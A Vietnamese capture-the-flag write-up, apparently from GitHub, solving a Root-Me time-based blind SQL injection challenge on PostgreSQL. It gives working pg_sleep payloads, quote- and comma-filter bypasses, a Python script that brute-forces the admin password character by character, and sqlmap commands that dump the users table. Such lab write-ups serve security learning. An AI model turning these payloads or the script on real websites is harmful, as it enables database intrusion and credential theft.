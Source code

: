 # Trần Mạnh Huy - Task3

* [1. SQL injection - Time based](1-sql-injection---time-based)

Vừa vào ta có giao diện:

![image](https://user-images.githubusercontent.com/104350480/221471713-d5066bc2-5f56-4f6a-81e8-098d3d375121.png)

Thử ở phần login nhưng có vẻ kh khai thác được gì, ta sang phần memberlist:

![image](https://user-images.githubusercontent.com/104350480/221471797-8014ce54-8754-4363-bffc-3c3ffd0988fa.png)

Nhấn vào admin với url: **http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1** , vì là dạng time-based nên ta cần test sleep để xem có bị dính sql không. Sau một hồi thử thì ta sleep được vói dạng của nó là postgresql: 

> payload: http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;+select+pg_sleep(10) --

Xác định được rồi giờ ta sẽ đi tìm tên bảng, tên cột và thông tin cần, cụ thể ở đây sẽ là tìm được administrator password với dạng payload chung:

> 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

![image](https://user-images.githubusercontent.com/104350480/221472507-a9b47bc2-01e9-4b72-88ed-6e8226cd219e.png)

Đầu tiên là cần tìm bảng, trước hết thì sẽ làm tìm độ dài của bảng:

> /web-serveur/ch40/?action=member&member=1;+select+case+when+((select+LENGTH(table_name)+from+information_schema.tables+limit+1)+>1)+then+pg_sleep(10)+else+pg_sleep(0)+end+-- 

Đi thử thế này sẽ rất là mất thời gian vì ta đang để limit trả về 1 với offset mặc định là 0, mà chẳng hạn bảng hay cột ta cần tìm ở cột thứ 6 hay 7 chẳng hạn thì thử sẽ mất kha khá thời gian. Mà để hiểu bản chất thì đành vậy.

Với payload trên ta sẽ kiểm tra xem độ dài chính xác của table_name ở hàng 1 là bao nhiêu, test đến khi > 5 kh thấy sleep nữa thì ta được độ dài của bảng là 5.
Với length=5, giờ ta đi tìm tên bảng bằng cách dùng SUBSTRING để đi bruteforce từng kí tự 1, cái này thì dùng burpsuite cho nhanh.
Nhưng đến khi dùng substring để tìm kí tự thì ta lại gặp vấn đề là kh sleep nữa dù payload đã chính xác:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+'a')+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Có vẻ '',"" đã bị filter trong bài này, vậy thì ta sẽ chuyển sang dạng chr hoặc hex thử xem:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+chr(97))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Oke vậy là đã sleep được, ta sẽ triển khai tiếp bằng cách bruteforce các kí tự char.

![image](https://user-images.githubusercontent.com/104350480/221474078-c546ad59-df4f-4497-ade5-76b248a4e266.png)

> Sau khi fuzz ta được tên bảng ứng với các kí tự char là: 117,115,101,114,115 chuyển về ta được tên bảng là users

![image](https://user-images.githubusercontent.com/104350480/221477066-6360b685-32f7-4c28-9519-4db0ebadfbaa.png)


Ta có được tên bảng, giờ đi tìm username với password thôi.
Tương tự như trên ta đi xác định column password. Bài này filter cả dấu ',' nên kh thể dùng limit 1,1 hay 2,1 được, ta sẽ thay thế bằng offset với chức năng tượng tự. Thử cái đầu tiên với offset = 1, kh phải cái ta được tên cột là username với payload như bên dưới: 

> payload1: 1;+select+case+when+(select+length(column_name)+from+information_schema.columns+limit+1+offset+1)+>+1)+then+pg_sleep(10)+else+pg_sleep(0)+end+--
> payload2: 1;+select+case+when+(substring(select+(column_name)+from+information_schema.columns+limit+1+offset+1),1,1)+=+chr(x))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Với length = 8 và bruteforce từng kí tự được: 

![image](https://user-images.githubusercontent.com/104350480/221482081-946047e6-2245-42c7-af12-6cc9fd46934e.png)

Tương tự ta cần tìm cột chứa thông tin password, cứ tiếp tục như trên đến khi offset = 5 ta được: 

![image](https://user-images.githubusercontent.com/104350480/221480820-c50769a7-8635-40ad-aa99-53ba1d364f45.png)

Vậy tìm được tên column ở hàng thứ 5 là password với tên bảng usesrs, mục tiêu là tìm password của username là administrator nên ta tiếp tục lấy giá trị của password ra: 

> payload: 1;+select+case+when+((select length(password) from users+limit+1)>1)+then+pg_sleep(20)+else+pg_sleep(0)+end+--

Thử như vậy ta được length của password hàng 1 có độ dài là 13, vì password có thể là các kí tự hoa và kí tự đặc biệt nên ta sẽ phải thử chr từ 33 đến 126.
Dùng 2 payload với burpsuite để tìm kiếm:

![image](https://user-images.githubusercontent.com/104350480/221502821-a5ca2dc9-c0b9-4da7-9641-25ac7f8069b2.png)


Nhưng bằng cách trên mình thấy bruteforce bằng burpsuite rất lâu, nên ta viết script như sau sẽ nhanh hơn nhiều:  

```
import requests
import string
import time
url='http://challenge01.root-me.org/web-serveur/ch40/'
passwd = ''
i=1
for i in range(1,14):
    for c in range(33,127):
        payload = f"1; select case when (substring((select (password) from users limit 1),{i},1) = chr({c})) then pg_sleep(5) else pg_sleep(0) end --"
        params = {'action':'member','member':payload}
        start = time.time()
        r=requests.get(url,params=params)
        end = time.time()  
        response_time = end - start
        if response_time > 2:
            print("count: ", i)
            print("c :",c)
	    text = chr(c)
	    passwd+=text
            break
print(passwd)

```
![image](https://user-images.githubusercontent.com/104350480/221499083-ac672ca7-1be4-443d-a309-a9a29f874425.png)

Ta chuyển đổi về dạng char về text thì được : T!m3B@s3DSQL!

### Một cách khác nữa là ta dùng sql map cho nhanh, khi hiểu được cách làm r thì dùng tool thôi :(((

> sqlmap -u 'http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1' --dbs

![image](https://user-images.githubusercontent.com/104350480/221501331-768f805e-35f4-4e93-915d-8baffd125199.png)

> sqlmap -u 'http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1' --dbms=PostgreSQL --tables --threads=10 --batch

![image](https://user-images.githubusercontent.com/104350480/221501670-d408b10e-e9e3-42de-ba75-a079405918d8.png)

> sqlmap -u 'http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1' --dbms=PostgreSQL -T users --columns --threads=10 --batch

![image](https://user-images.githubusercontent.com/104350480/221502477-e1628c4e-5641-4f03-ab79-4707838a1325.png)


> sqlmap -u 'http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1' --dbms=PostgreSQL -T users -C password --dump --threads=10 --batch

![image](https://user-images.githubusercontent.com/104350480/221502624-cc8a2c17-34f9-489b-89e8-dca18b04de81.png)

Ta cũng có được password: T!m3B@s3DSQL!


